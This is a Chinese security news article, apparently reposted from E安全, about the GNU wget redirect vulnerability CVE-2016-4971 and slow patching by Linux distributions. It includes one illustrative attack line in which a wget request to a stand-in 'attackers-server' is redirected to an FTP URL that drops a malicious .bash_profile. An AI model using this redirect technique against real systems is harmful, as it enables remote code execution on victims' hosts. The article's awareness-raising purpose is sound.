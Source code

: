 ```yaml
---
layout: post
title: 所有Linux发行版仍未修复严重的GNU wget漏洞
categories:
- 今日头条
tags:
---
```

![](http://p1.pstatp.com/large/9e000070c4c7e7235d6)

E安全7月8日讯 先前，安全研究员Dawid Golunski和SecuriTeam曝出GNU wget漏洞（CVE-2016-4971）。6月9日，GNU wget项目发布文件下载包新版1.18修复漏洞。

CVE-2016-4971 漏洞回顾GUN wget 作为*nix 系统常用下载工具，支持http、https、ftp 等多种协议，当使用wget 下载文件时，若初始下载http服务提供的下载资源， 如果服务器将下载资源重定向到ftp服务时，wget 会默认信赖http服务器重定向的ftp 链接地址和文件名，而不做二次验证。从而可能下载到恶意钓鱼者的恶意文件，导致主机被入侵。

将近一个月后，包含GNU wget标准包的所有Linux发行版仍未修复被曝漏洞（CVE-2016-4971）。

GNU wget漏洞导致远程代码执行

安全研究员Dawid Golunski在公告中解释道，恶意攻击者能诱骗wget文件下载过程在Linux设备上执行代码。

Dawid Golunski通过电子邮件告诉外媒，“攻击者可能潜在滥用漏洞上传任意文件并执行代码。”

![](http://p3.pstatp.com/large/9de00069a9f7669a0f3)

GNU wget是从网络上自动下载文件的Linux命令行实用工具。如果链接发生变化，GNU wget支持URL重定向。

当重定向到FTP链接时，GNU wget不重命名文件

Golunski发现，当从最初的HTTP URL重定向到FTP链接时，wget不能正确处理文件名。

比如，如果攻击者通过wget控制定期下载文件的服务器，攻击者可以使用302重定向文件。运行wget http://attackers-server/safe_file.txt命令的用户将被重定向到下载ftp://attackers-server/.bash_profile。

在正常的HTTP重定向到HTTP中，为了防止远程代码执行（Remote Code Execution，缩写RCE），GNU wget将以原始文件名重命名第二个文件（.bash_profile to safe_file.txt）。然而，从HTTP重定向到FTP链接时，wget不包含该安全机制。这个问题影响打补丁1.18版本之前的所有GNU wget版本。

因为wget命令经常用于大多数时候自动执行下载文件的脚本中，这就让攻击者有了可乘之机。所有系统管理员应审查将wget作为首选下载内容的Cronjobs。

受影响的Linux发行版迟迟未修复

虽然GNU wget项目履行了自己的职责，但一些Linux发行版却未及时更新。Golunski表示，只有Ubuntu将GNU wget1.18（如wget 1.17-1）包含在wget发行版更新中。Arch Linux等发行版自6月中旬就已修复了该问题。

另一热门Linux OS—Debian特别配备了网络专家修复该问题。Wget 1.18目前包含在最新“测试”和“不稳定”版本中。

另一方面，Red Hat已经推迟修复7.x中存在的该问题，同时还宣布未修复旧版6.x和5.x版本中的wget问题。

虽然CVE-2016-4971安全隐患较高，但打补丁的速度也比较慢。

研究人员通过电子邮件告诉外媒，“重要的是，wget发布了已经发布了新版1.18，因此，如果用户受影响且希望得到安全保障，他们可以下载官方资源。”

Golunski和SecuriTeam已经发布了安全公告，内容包含漏洞与概念验证详情，以提高对问题的认识。

E安全/文 转载请注明E安全

E安全——全球网络安全新传媒

E安全微信公众号： EAQapp

E安全新浪微博：weibo.com/EAQapp

E安全客服&投稿邮箱：eapp@easyaq.com